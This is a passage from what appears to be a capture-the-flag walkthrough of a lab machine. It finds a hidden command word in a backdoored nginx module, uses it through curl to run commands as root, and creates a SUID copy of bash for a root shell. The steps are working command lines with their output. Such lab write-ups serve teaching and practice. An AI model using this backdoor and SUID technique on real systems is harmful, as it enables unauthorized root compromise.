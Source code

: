 
    oxdf@parrot$ md5sum ngx_http_execute_module.so 
    15f0ad443a4b4888bfbee4e5b2cf0ae6  ngx_http_execute_module.so



#### Strings

Just running strings on the binary is enough to figure out the new
command word:



    oxdf@parrot$ strings ngx_http_execute_module.so
    ...[snip]...
    ippsec.run
    ...[snip]...



That looks too similar to `system.run` to not be it.

### Execute via Backdoor

Trying again with the new argument name works:



    www-data@gobox:~$ curl http://127.0.0.1:8000?ippsec.run[id]
    uid=0(root) gid=0(root) groups=0(root)



Typically to save myself having to url-encode, I would switch to a GET
(`-G`) with `--data-urlencode`, but the issue here is that I don't want
to encode the `[]`.

Still, I can do it myself:



    www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[ls%20%2froot]'
    iptables.sh
    snap



To get shell, I'll copy Bash into `tmp`:



    www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[cp%20%2fbin%2fbash%20%2ftmp]'
    curl: (52) Empty reply from server
    www-data@gobox:~$ ls -l /tmp/bash
    -rwxr-xr-x 1 root root 1183448 Aug 26 19:38 /tmp/bash



Now `chmod` to set it as SUID:



    www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[chmod%204777%20%2ftmp%2fbash]'      
    curl: (52) Empty reply from server
    www-data@gobox:~$ ls -l /tmp/bash
    -rwsrwxrwx 1 root root 1183448 Aug 26 19:38 /tmp/bash
